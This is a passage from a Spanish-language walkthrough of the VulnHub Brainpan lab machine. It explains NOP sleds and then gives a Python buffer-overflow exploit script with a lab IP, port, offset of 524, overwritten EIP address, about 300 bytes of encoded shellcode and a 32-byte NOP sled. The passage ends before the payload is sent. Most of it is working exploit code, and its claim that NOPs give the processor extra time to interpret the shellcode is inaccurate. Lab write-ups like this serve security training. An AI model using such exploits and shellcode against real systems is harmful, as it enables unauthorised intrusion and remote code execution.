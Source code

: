 Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. Los NOPS no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.

Los nops en hexadecimal se representan como `\x90`

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-34.png)
_nops_

En nuestro script, utilizaremos un total de 32 nops lo cual otorgara suficiente tiempo al procesador para ejecutar nuestro shellcode.

```python
#!/usr/bin/env python3

import socket, sys

ip = "192.168.1.12"
port = 9999

offset = 524
before_eip = b"A" * offset
eip = '\xf3\x12\x17\x31'

shellcode =  b""
shellcode += b"\xbf\x43\xec\x59\xa4\xdb\xd4\xd9\x74\x24\xf4"
shellcode += b"\x5d\x2b\xc9\xb1\x52\x83\xed\xfc\x31\x7d\x0e"
shellcode += b"\x03\x3e\xe2\xbb\x51\x3c\x12\xb9\x9a\xbc\xe3"
shellcode += b"\xde\x13\x59\xd2\xde\x40\x2a\x45\xef\x03\x7e"
shellcode += b"\x6a\x84\x46\x6a\xf9\xe8\x4e\x9d\x4a\x46\xa9"
shellcode += b"\x90\x4b\xfb\x89\xb3\xcf\x06\xde\x13\xf1\xc8"
shellcode += b"\x13\x52\x36\x34\xd9\x06\xef\x32\x4c\xb6\x84"
shellcode += b"\x0f\x4d\x3d\xd6\x9e\xd5\xa2\xaf\xa1\xf4\x75"
shellcode += b"\xbb\xfb\xd6\x74\x68\x70\x5f\x6e\x6d\xbd\x29"
shellcode += b"\x05\x45\x49\xa8\xcf\x97\xb2\x07\x2e\x18\x41"
shellcode += b"\x59\x77\x9f\xba\x2c\x81\xe3\x47\x37\x56\x99"
shellcode += b"\x93\xb2\x4c\x39\x57\x64\xa8\xbb\xb4\xf3\x3b"
shellcode += b"\xb7\x71\x77\x63\xd4\x84\x54\x18\xe0\x0d\x5b"
shellcode += b"\xce\x60\x55\x78\xca\x29\x0d\xe1\x4b\x94\xe0"
shellcode += b"\x1e\x8b\x77\x5c\xbb\xc0\x9a\x89\xb6\x8b\xf2"
shellcode += b"\x7e\xfb\x33\x03\xe9\x8c\x40\x31\xb6\x26\xce"
shellcode += b"\x79\x3f\xe1\x09\x7d\x6a\x55\x85\x80\x95\xa6"
shellcode += b"\x8c\x46\xc1\xf6\xa6\x6f\x6a\x9d\x36\x8f\xbf"
shellcode += b"\x32\x66\x3f\x10\xf3\xd6\xff\xc0\x9b\x3c\xf0"
shellcode += b"\x3f\xbb\x3f\xda\x57\x56\xba\x8d\x97\x0f\xc5"
shellcode += b"\x43\x70\x52\xc5\x4a\xdc\xdb\x23\x06\xcc\x8d"
shellcode += b"\xfc\xbf\x75\x94\x76\x21\x79\x02\xf3\x61\xf1"
shellcode += b"\xa1\x04\x2f\xf2\xcc\x16\xd8\xf2\x9a\x44\x4f"
shellcode += b"\x0c\x31\xe0\x13\x9f\xde\xf0\x5a\xbc\x48\xa7"
shellcode += b"\x0b\x72\x81\x2d\xa6\x2d\x3b\x53\x3b\xab\x04"
shellcode += b"\xd7\xe0\x08\x8a\xd6\x65\x34\xa8\xc8\xb3\xb5"
shellcode += b"\xf4\xbc\x6b\xe0\xa2\x6a\xca\x5a\x05\xc4\x84"
shellcode += b"\x31\xcf\x80\x51\x7a\xd0\xd6\x5d\x57\xa6\x36"
shellcode += b"\xef\x0e\xff\x49\xc0\xc6\xf7\x32\x3c\x77\xf7"
shellcode += b"\xe9\x84\x97\x1a\x3b\xf1\x3f\x83\xae\xb8\x5d"
shellcode += b"\x34\x05\xfe\x5b\xb7\xaf\x7f\x98\xa7\xda\x7a"
shellcode += b"\xe4\x6f\x37\xf7\x75\x1a\x37\xa4\x76\x0f"

after_eip = b"\x90" * 32 + shellcode

```